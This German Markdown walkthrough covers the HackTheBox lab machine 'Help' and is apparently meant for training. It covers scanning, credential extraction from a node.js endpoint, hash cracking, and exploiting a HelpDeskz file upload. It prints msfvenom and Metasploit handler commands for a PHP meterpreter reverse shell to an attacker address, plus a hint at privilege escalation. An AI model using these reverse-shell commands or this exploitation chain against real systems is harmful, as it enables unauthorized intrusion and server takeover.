# 	Help

 Ein kurzes Tutorial für die Maschine "Help" von hackthebox.eu

 https://www.hackthebox.eu/home/machines/profile/170

 Die Maschine lehrt den Umgang mit Reverse Shells, Codeanalyse, Exploitrecherche und das manipulieren vorhandener Exploits.
 
## Anleitung


 1. NMAP Scan 

    


 2. Suche nach Verzeichnissen mit Dirb(buster). 
    Dirb durchsucht mit Hilfe einer Wordlist die Verzeichnisse und Dateien einer Webseite, indem es Einträge aus der Liste an die Domain anhängt. 
    Wenn der HTTP Code 200 zurückgesendet wird, hat Dirb ein gültiges Verzeichnis gefunden.

    

 3. Gefundenes Verzeichnis (http://10.10.10.80/support)

    

 4. Zum Verzeichnis navigieren

    

 5. Suche nach vorhandenem Exploit für HelpDeskz verläuft erfolgreich. 

    

    Leider muss der Exploit an einigen stellen angepasst werden. Es wird vorausgesetzt, dass für die Berechnung des MD5 Hashes die Zeit des Servers mit der des Angreifers synchronisiert werden.
    Entweder manipuliert man also den Exploit so, dass dieser Hashes für alle 12 Zeitzonen gleichzeitig erstellt und abgleicht, oder man versucht an die Credentials für das Helpdeskz zu gelangen.

 6. Die erhaltene Json Datei auf Port 3000 wird analysiert, um einen Hinweis für die Credentials zu erhalten.

    

 7. Nun wird nach recherchiert, wie eine gültige Query für eine node.js Anwendung über einen HTTP-Request aussehen könnte.

    

 8. Das Muster der Query wird kopiert und auf unser Beispiel testweise angepasst.

    
    .png )
    

    Nach einigen Versuchen erhält man den Usernamen und das gehashte Passwort. Den Hash kann man mit einem Online Tool oder "JohnTheRipper" (Kali Tool) über Rainbowtables enthashen.
 
 9. Mit den erhaltenen Credentials kann sich der Angreifer im HelpDeskz Admin-Bereich anmelden und die Zeitzone auf die Lokale Maschine anpassen. 

    .png)

    Nun wird eine Reverse Shell erstellt, um eine Payload auf den Server zu laden.

    ```bash
    msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.178.3 LPORT=4444 -e php/base64 -f
    raw > /root/Desktop/msfvenom.php
    ```
    
    Mit Metasploit wird nun nach der Verbindung gehorcht.

    ```bash
    msf > use exploit/multi/handler
    msf exploit(handler) > set payload php/meterpreter/reverse_tcp
    payload => php/meterpreter/reverse_tcp
    msf exploit(handler) > set LHOST 192.168.178.3
    LHOST => 192.168.178.3
    msf exploit(handler) > set LPORT 4444
    LPORT => 4444
    msf exploit(handler) > exploit
    [*] Started reverse handler on 192.168.178.3:4444 
    [*] Starting the payload handler...
    ```

    WICHTIG: "<?php" vor und "?>" hinter den Text in der Datei anhängen!

 10. Beim Upload der infizierten .php Datei wird ein Fehler angezeigt. Dafür wird mit Hilfe des GitHub    Source Codes analysiert, wie der Hash berechnet und wo die Datei hochgeladen wird.

     

     .png)

    Beim Analysieren des Codes fällt auf, dass die Datei erst hochgeladen und anschließend die Dateiendung analysiert wird. Die Fehlernachricht kann also ignoriert werden. Außerdem muss der Exploit an einer stelle angepasst werden.
    Die Payload kann nur über http://10.10.10.117/support/uploads/tickets/HASH/.php lokalisiert werden.

     
     

    Script starten und nebenbei den listener aus Punkt 9 laufen lassen.
     

 11. Man erhält eine Meterpreter Shell mit eingeschränkten Rechten auf das Dateisystem des Servers. Von dort aus kann über den Befehl "shell" eine Shell erstellt werden. 
     Bei Bedarf kann folgender Exploit auf das System geladen und ausgeführt werden, um an root-Rechte zu gelangen.

     
    

    

